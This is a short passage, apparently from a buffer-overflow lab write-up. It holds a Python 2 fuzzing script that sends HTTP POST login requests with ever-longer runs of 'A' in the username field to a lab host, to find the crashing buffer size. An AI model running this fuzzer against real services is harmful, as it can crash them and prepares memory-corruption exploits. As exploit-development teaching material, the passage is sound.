 ![burp](../assets/imgs/synb/burp.png)

```
#!/usr/bin/python

import socket, time, sys

size = 100

while (size < 2000):
	try:
		print "[+] Sending buffer %s bytes" %size
		buffer = "A" * size
		fuzz = "username=" + buffer + "&password=A"

		buff = "POST /login HTTP/1.1\r\n"
		buff += "Host: 192.168.0.105\r\n"
		buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
		buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
		buff += "Accept-Language: en-US,en;q=0.5\r\n"
		buff += "Accept-Encoding: gzip, deflate\r\n"
		buff += "Referer: http://192.168.0.105/login\r\n"
		buff += "Content-Type: application/x-www-form-urlencoded\r\n"
		buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
		buff += "\r\n"
		#buffer += "Connection: close\r\n"
		#buffer += "Upgrade-Insecure-Requests: 1\r\n"

		buff += fuzz

		s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("192.168.0.105", 80))
		s.send(buff)
		s.close()

		size += 100
		time.sleep(5)

	except Exception as e:
		print str(e)
		sys.exit(1)
```
